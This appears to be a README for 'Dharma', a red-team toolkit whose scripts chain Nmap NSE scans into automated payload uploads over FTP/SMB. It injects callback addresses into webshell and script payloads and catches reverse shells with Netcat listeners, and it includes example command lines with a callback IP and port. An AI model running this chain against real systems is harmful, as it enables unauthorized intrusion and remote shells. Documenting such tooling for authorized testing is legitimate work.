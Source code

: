 # 🛠️ Dharma Utility Scripts

This directory contains the core automation logic for Dharma's exploitation chain. Each script is modular, supports chaining, and is built for red team operational workflows.

---

## 🔱 Scripts Included

### `auto-nse.py`
**Purpose:** Intelligent Nmap scripting based on pre-existing reconnaissance data.

- Parses `loot/` JSON files to suggest and execute relevant NSE scans.
- Supports HTTP, FTP, and SMB protocol-based targeting.
- Can auto-launch exploit logic after scan (`--auto-chain`).
- Outputs structured scan logs in `results/<target>/nmap/`.

**Key Flags:**
```bash
--run              # Execute suggested NSE scans
--callback IP:PORT # Optional for chaining into exploit
--auto-chain       # Automatically launch exploit after NSE
--loot-only        # Skip scans, just parse loot
Example:

bash
Copy
Edit
python3 auto-nse.py --target 10.10.10.42 --run --auto-chain --callback 10.10.14.3:4444
auto-exploit.py
Purpose: Uploads payloads via FTP/SMB based on loot, injects callback IPs, and catches shells.

Automatically finds payloads in correct directories (web/, windows/, linux/).

Replaces {{CALLBACK}}, {{CALLBACK_IP}}, {{CALLBACK_PORT}} inside payloads.

Launches Netcat or HTTP listeners for reverse shells.

Writes logs to results/<target>/exploit-log.txt.

Key Flags:

bash
Copy
Edit
--callback IP:PORT   # Inject callback info into payloads
--listen             # Start Netcat listener
--http-listen        # Start HTTP shell beacon catcher
--generate-rc        # Output Metasploit handler file
Example:

bash
Copy
Edit
python3 auto-exploit.py --target 10.10.10.42 --callback 10.10.14.3:4444 --listen --generate-rc
🧩 Payload Structure
Payloads must be located in:

mathematica
Copy
Edit
payloads/
├── web/        ← For PHP/ASP webshells (FTP)
├── windows/    ← For .ps1, .bat (SMB - Windows)
├── linux/      ← For .sh, .c (SMB - Linux)
Supported placeholders inside payloads:

objectivec
Copy
Edit
{{CALLBACK}}        → IP:PORT
{{CALLBACK_IP}}     → IP only
{{CALLBACK_PORT}}   → Port only
📁 Output Structure
After execution, logs and loot will be stored in:

pgsql
Copy
Edit
loot/
├── ftp-10_10_10_42.json
├── smb-10_10_10_42.json
├── http-10_10_10_42.json

results/
└── 10.10.10.42/
    ├── exploit-log.txt
    └── nmap/
        ├── ftp_nse.txt
        ├── smb_nse.txt
        └── http_nse.txt
📦 Requirements
Python 3.7+

nmap

ncat or netcat

impacket (pip install impacket)

Optional: msfconsole for .rc launch

✅ Usage Workflow
Gather recon and write JSON to loot/

Run auto-nse.py to recommend or execute NSE scans

Chain into auto-exploit.py to drop payloads

Start listener and catch shell

Review logs in results/

🧠 Notes
Scripts are designed to be headless and operator-friendly.

All payload injection is done dynamically.

Ideal for internal testing, assumed-breach scenarios, or red team pivot chains.

Built for speed. Made for operators. Dharma never sleeps.
